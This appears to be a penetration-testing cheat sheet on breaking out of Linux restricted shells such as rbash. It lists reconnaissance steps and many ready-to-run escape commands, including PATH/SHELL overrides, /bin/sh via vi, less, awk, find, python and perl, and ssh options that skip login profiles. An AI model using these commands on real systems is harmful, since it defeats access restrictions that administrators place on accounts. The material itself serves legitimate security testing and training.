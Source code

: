 # Escaping Restricted Shell

Some sysadmins don't want their users to have access to all commands. So they get a restriced shell. If the hacker get access to a user with a restriced shell we need to be able to break out of that, escape it, in order to have more power.

Many linux distros include rshell, which is a restriced shell.

To access the restried shell you can do this:

```
sh -r 
rsh

rbash
bash -r
bash --restricted

rksh
ksh -r
```

[http://securebean.blogspot.cl/2014/05/escaping-restricted-shell\_3.html?view=sidebar](http://securebean.blogspot.cl/2014/05/escaping-restricted-shell_3.html?view=sidebar)  
[http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells](http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells)

## Breaking Out

**Getting out of restricted shell**

#### Reconnaissance[¶](https://bitvijays.github.io/LFC-VulnerableMachines.html#reconnaissance)

Find out information about the environment.

* Run env to see exported environment variables
* Run ‘export -p’ to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH \($PATH\) and SHELL \($SHELL\) variables are ‘-rx’, which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell!

* If the SHELL variable is writeable, you can simply set it to your shell of choice \(i.e. sh, bash, ksh, etc…\).

* If the PATH is writeable, then you’ll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what’s allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

#### Quick Wins

* If ‘/’ is allowed in commands just run /bin/sh

* If we can set PATH or SHELL variable

```
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
```

or if chsh command is present just change the shell to /bin/bash

```
chsh
password: <password will be asked>
/bin/bash
```

If we can copy files into existing PATH, copy

```
cp /bin/sh /current/directory; sh
```

#### Taking help of binaries

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -&gt; !/bin/sh
* gdb -&gt; !/bin/sh
* more/ less/ man -&gt; !/bin/sh
* vi -&gt; :!/bin/sh : Refer [Breaking out of Jail : Restricted Shell](http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html) and [Restricted Accounts and Vim Tricks in Linux and Unix](http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html)
* scp -S /tmp/getMeOut.sh x y : Refer [Breaking out of rbash using scp](http://pentestmonkey.net/blog/rbash-scp)
* awk ‘BEGIN {system\(“/bin/sh”\)}’
* find / -name someName -exec /bin/sh ;
* tee

```
echo "Your evil code" | tee script.sh
```

Invoke shell thru scripting language

Python

```
python -c 'import os; os.system("/bin/bash")'
```

Perl

```
perl -e 'exec "/bin/sh";'
```

#### SSHing from outside

* Use SSH on your machine to execute commands before the remote shell is loaded:

```
ssh username@IP -t "/bin/sh"
```

* Start the remote shell without loading “rc” profile \( where most of the limitations are often configured\)

```
ssh username@IP -t "bash --noprofile"
```




